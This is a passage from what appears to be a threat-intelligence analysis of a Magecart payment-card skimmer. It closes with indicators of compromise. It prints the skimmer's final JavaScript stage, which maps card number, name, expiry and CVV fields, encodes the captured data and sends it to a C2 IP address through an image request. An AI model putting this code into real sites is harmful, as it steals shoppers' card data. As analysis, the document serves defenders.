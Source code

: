 <h6>The last part of the code is to replace the value of before send to the C2 by URL requests, this time in using the creation of an img element, by the url of the img, send the data to theirs C2 domains. This time, this doesn't remove the cookie in the cache and keep it.</h6>

```js
  Data= Push_Data("mage_stats");
  Data= Data["replace"]("card[num]","cc_number");
  Data= Data["replace"]("card[name]","cc_owner");
  Data= Data["replace"]("card[exp]","authorizenet_expiration");
  Data= Data["replace"]("payment[ccw_exp_year]","authorizenet_expiration_yr");
  Data= Data["replace"]("card[cvv]","cc_cid");
  Data= Data["replace"]("payment[ps_cc_number]","cc_number");
  Data= Data["replace"]("payment[ps_cc_owner]","cc_owner");
  Data= Data["replace"]("payment[ps_cc_exp_month]","authorizenet_expiration");
  Data= Data["replace"]("payment[ps_cc_exp_year]","authorizenet_expiration_yr");
  Data= Data["replace"]("payment[ps_cc_cid]","cc_cid");
  if(Data["indexOf"]("cc_number")!==  -1|| Data["indexOf"]("cc_cid")!==  -1|| Data["indexOf"]("cvv")!==  -1|| Data["indexOf"]("cardno")!==  -1|| Data["indexOf"]("ccNo")!==  -1|| Data["indexOf"]("securityCode")!==  -1|| Data["indexOf"]("cardNumber")!==  -1|| Data["indexOf"]("numero_cartao")!==  -1)
  {
   var result={referer:document["URL"],tag:"YTE4MWE2MDM3NjljMWY5OGFkOTI3ZTczNjdjN2FhNTE=",stats:btoa(Data["hexEncode"]())}; // YTE4MWE2MDM3NjljMWY5OGFkOTI3ZTczNjdjN2FhNTE= -> a181a603769c1f98ad927e7367c7aa51
   u= "http://45.197.141.250/analytics.php?statistics_hash="+ btoa(JSON["stringify"](result));
   var s=document["createElement"]("IMG");
   s["src"]= u;
   Push_Cookie("mage_stats");
  }
 })}
}main()})
 ```

<h6>As said before, an operation tag can be found :</h6>

<table>
<tr>
<th>Base64 tag</th>
<th>Value tag</th>
</tr><tr>
<td>YTE4MWE2MDM3NjljMWY5OGFkOTI3ZTczNjdjN2FhNTE=</td>
<td>a181a603769c1f98ad927e7367c7aa51</td>
</tr>
</table>

<h6>As a conclusion, we can note the continuity of the operations as well as the opportunity to add to their business, a skimmer against the cybersource solution (acquired by VISA) as anti-fraud solutions. It is important to note that a supposed part of the group was stopped and that it took little time to restructure and migrate to this opportunity.</h6>

<h2> Indicators Of Compromise (IOC) <a name="IOC"></a></h2>
<h6> The IOC can be exported in <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Magecart/2020-06-02/JSON/IOC-Magecart-2020-06-02.json">JSON</a> and <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/Additional%20Analysis/Magecart/2020-06-02/CSV/IOC-Magecart-2020-06-02.csv">CSV</a></h6>
